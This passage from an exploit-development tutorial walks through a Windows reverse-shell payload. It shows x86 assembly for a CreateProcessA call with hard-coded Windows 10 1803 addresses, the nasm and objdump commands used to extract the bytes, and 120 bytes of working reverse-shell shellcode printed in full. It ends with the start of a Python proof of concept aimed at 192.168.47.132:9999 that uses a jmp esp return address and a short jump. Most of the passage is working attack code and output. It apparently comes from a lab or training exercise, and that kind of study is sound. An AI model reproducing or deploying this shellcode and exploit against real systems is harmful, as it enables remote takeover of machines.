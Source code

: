 ```asm
	push edx		; dwY - NULL
	push edx		; dwX - NULL
	push edx		; pTitle - NULL
	push edx		; pDesktop - NULL
	push edx		; pReserved - NULL
	xor eax, eax
	add al, 44
	push eax		; cb - size of structure
	mov eax, esp		; pStartupInfo

	push ebx		; pProcessInfo
	push eax		; pStartupInfo
	push edx		; CurrentDirectory - NULL
	push edx		; pEnvironment - NULL
	push edx		; CreationFlags - 0
	xor eax, eax
	inc eax
	push eax		; InheritHandles -TRUE - 1
	push edx		; pThreadAttributes -NULL
	push edx		; pProcessAttributes - NULL
	push ecx		; pCommandLine - pointer to "cmd"
	push edx		; ApplicationName - NULL
	
	mov ebx, 0x74f36630	; CreateProcessA - Win10 1803
	call ebx

```

No we'll compile with nasm and extract our shellcode out.

```
root@kali:~#nasm -f elf32 -o revshell.o revshell.nasm
root@kali:~#ld -o revshell revshell.o

root@kali:~# for i in $(objdump -d win10revshell |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x50\x50\x50\x31\xdb\xb3\x06\x53\x40\x50\x40\x50\xbb\x30\x97\x4e\x75\x31\xc0\xff\xd3\x96\x68\xc0\xa8\x2f\x80\x66\x68\x11\x5c\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x56\xbb\xe0\x5e\x4e\x75\xff\xd3\xba\x63\x63\x6d\x64\xc1\xea\x08\x52\x89\xe1\x31\xd2\x83\xec\x10\x89\xe3\x56\x56\x56\x52\x52\x31\xc0\x40\xc1\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04\x2c\x50\x89\xe0\x53\x50\x52\x52\x52\x31\xc0\x40\x50\x52\x52\x51\x52\xbb\x30\x66\xf3\x74\xff\xd3
```

And we have 120 bytes of reverse shellcode! We squeezed by with 2 bytes left to spare.

Let's update our PoC

```python
#!/usr/bin/python

import socket

host = '192.168.47.132'
port = 9999


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)


# 625011AF
jmp_esp = "\xaf\x11\x50\x62"

# max short negative JMP
short_jmp = "\xeb\x80"

```